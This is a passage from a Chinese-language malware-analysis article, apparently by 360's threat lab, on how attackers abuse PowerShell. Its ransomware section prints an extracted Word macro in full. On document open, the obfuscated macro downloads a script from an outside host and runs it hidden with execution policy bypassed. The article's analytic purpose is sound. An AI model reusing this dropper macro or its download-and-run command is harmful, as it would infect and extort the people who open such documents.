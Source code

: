 > 原文链接: https://www.anquanke.com//post/id/83751 


# Powershell恶意代码的N种姿势


                                阅读量   
                                **113935**
                            
                        |
                        
                                                                                    



[![](https://p4.ssl.qhimg.com/t01e3db55b81a8c0ef3.png)](https://p4.ssl.qhimg.com/t01e3db55b81a8c0ef3.png)

**引言**

人在做,天在看。

技术从来都是中性的,被用来行善还是作恶完全取决于运用它的人。原子能可以用来发电为大众提供清洁能源,也可以用来制造能毁灭全人类的核武器,这不是一个完善的世界,于是我们既有核电站也有了核武器。

Powershell,曾经Windows系统管理员的称手工具,在恶意代码制造和传播者手里也被玩得花样百出。由于Powershell的可执行框架部分是系统的组件不可能被查杀,而驱动它的脚本是非PE的而非常难以通过静态方法判定恶意性,同时脚本可以非常小巧而在系统底层的支持下功能却可以非常强大,这使利用Powershell的恶意代码绕过常规的病毒防护对系统为所欲为。因此,360天眼实验室近期看到此类恶意代码泛滥成灾就毫不奇怪,事实上,我们甚至看到所跟踪的APT团伙也开始转向Powershell。

本文我们向大家展示一些看到的实际恶意代码的例子。

**实例分析**

这里我们基于360威胁情报中心的数据,对接触到的Powershell恶意代码按分类各举一例。

**勒索软件**

我们知道现在勒索软件以其直接的变现方式现在已成为黑产的宠儿,像雨后春笋那样冒出来的勒索软件中,我们看到了使用纯Powershell脚本实现的例子。

样本MD5:ea7775da99367ac89f70f2a95c7f8e8e

这是一个通过Word文档中嵌入宏以诱导执行的勒索软件,使用工具提取出其中的宏,内容如下:
<li>
<pre>`"vba_code": "Private Sub      Document_Open() Dim FGHNBVRGHJJGFDSDUUUU As String FGHNBVRGHJJGFDSDUUUU =      "cmd /K " + "pow" + "er" + "Sh" +      "ell.e" + "x" + "e -WindowStyle hiddeN      -ExecuTionPolicy BypasS -noprofile (New-Object      System.Net.WebClient).DownloadFile('http://rxlawyer.in/file.php','%TEMP%Y.ps1');      poWerShEll.exe -WindowStyle hiddeN -ExecutionPolicy Bypass -noprofile      -file %TEMP%Y.ps1" Shell FGHNBVRGHJJGFDSDUUUU, 0 MsgBox      ("Module could not be found.") FGHHH = 7 * 2 DGHhhdRGHH = 9 + 23      End Sub`</pre>
</li>
宏的功能是下载http://rxlawyer.in/file.php到本地的temp目录下,并用Powershell运行这个文件。而下载回来的file.php本质上是一个ps的脚本文件,MD5为:dd180477d6a0bb6ce3c29344546ebdfc    。

勒索者脚本的实现原理是:通过随机生成加密密钥与用户ID,将加密密钥与用户ID信息上传到服务器进行备份,在用户机器上使用对称算法将用户的文档进行加密。因为密钥为随机生成,除非拥有攻击者服务器上备份的密钥,否则很难将被加密的文档进行还原。

脚本的原貌为:

[![](https://p3.ssl.qhimg.com/t01bc12a85522f45e1c.png)](https://p3.ssl.qhimg.com/t01bc12a85522f45e1c.png)
